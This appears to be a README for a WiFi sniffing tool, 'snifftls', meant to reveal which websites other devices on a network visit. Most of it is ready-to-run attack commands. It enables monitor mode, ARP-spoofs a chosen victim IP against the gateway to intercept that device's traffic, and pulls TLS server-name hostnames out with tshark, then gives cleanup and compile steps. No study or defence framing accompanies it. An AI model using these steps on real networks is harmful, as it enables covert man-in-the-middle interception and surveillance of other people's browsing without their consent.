 Sniff WiFi websites visited traffic

*requires tshark
- For analyzing other devices connected to the wifi, use in monitor mode.

{
    sudo ip link set wlan0 down
    sudo iw dev wlan0 set type monitor
    sudo ip link set wlan0 up
}

Alternatively, use:
{
    sudo airmon-ng start wlan0
}
- Use with arpspoofing
--------------------------------------------------------------------------
//Targetting//
- 1. ip route | grep default
- 2. sudo arp-scan --localnet
- 3. sudo arpspoof -i wlanX -t 192.168.1.2 -r 192.168.1.1
- 4. sudo tshark -i wlan1 -Y "tls.handshake.extensions_server_name" -T fields -e tls.handshake.extensions_server_name
- 5. sudo pkill arpspoof
     echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward

--------------------------------------------------------------------------
//Compilation//
- 1. gcc snifftls.c -o snifftls
  2. sudo ./snifftls
